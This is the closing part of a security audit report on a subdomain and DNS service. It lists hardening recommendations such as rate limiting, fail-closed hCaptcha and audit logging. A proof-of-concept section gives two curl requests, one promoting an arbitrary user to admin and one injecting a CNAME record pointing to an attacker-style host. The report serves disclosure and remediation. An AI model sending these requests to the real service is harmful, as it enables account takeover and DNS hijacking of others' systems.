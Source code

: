 1. **Add Rate Limiting**: Implement rate limiting on all admin endpoints
2. **Improve Error Handling**: Sanitize error messages to prevent information disclosure
3. **hCaptcha Hardening**: Make hCaptcha mandatory and fail-closed
4. **Audit Logging**: Improve audit trails for privilege changes

### Long-term Actions (Medium Priority)

1. **Security Headers**: Enhance security headers configuration
2. **Input Sanitization**: Comprehensive input validation framework
3. **Dependency Management**: Regular security audits of dependencies
4. **Penetration Testing**: Regular security assessments

## Proof of Concept Exploits

### Admin Privilege Escalation
```bash
# As any admin user, promote user ID "malicious_user_id" to admin
curl -X POST https://my-cool.space/api/admin/users/malicious_user_id/make-admin \
  -H "Content-Type: application/json" \
  -H "Cookie: mycoolspace.sid=<valid_admin_session>"
```

### DNS Record Injection
```bash
# Submit subdomain with malicious CNAME
curl -X POST https://my-cool.space/api/request-subdomain \
  -H "Content-Type: application/json" \
  -d '{
    "subdomain": "evil",
    "targetUrl": "evil.attacker.com",
    "recordType": "cname",
    "h-captcha-response": "test_token"
  }'
```

## Conclusion

The my-cool-dot-space application has several critical security vulnerabilities that require immediate attention. The most severe issues involve admin privilege escalation and session management weaknesses that could lead to complete system compromise. Addressing these vulnerabilities should be prioritized to protect the integrity of the DNS service and user data.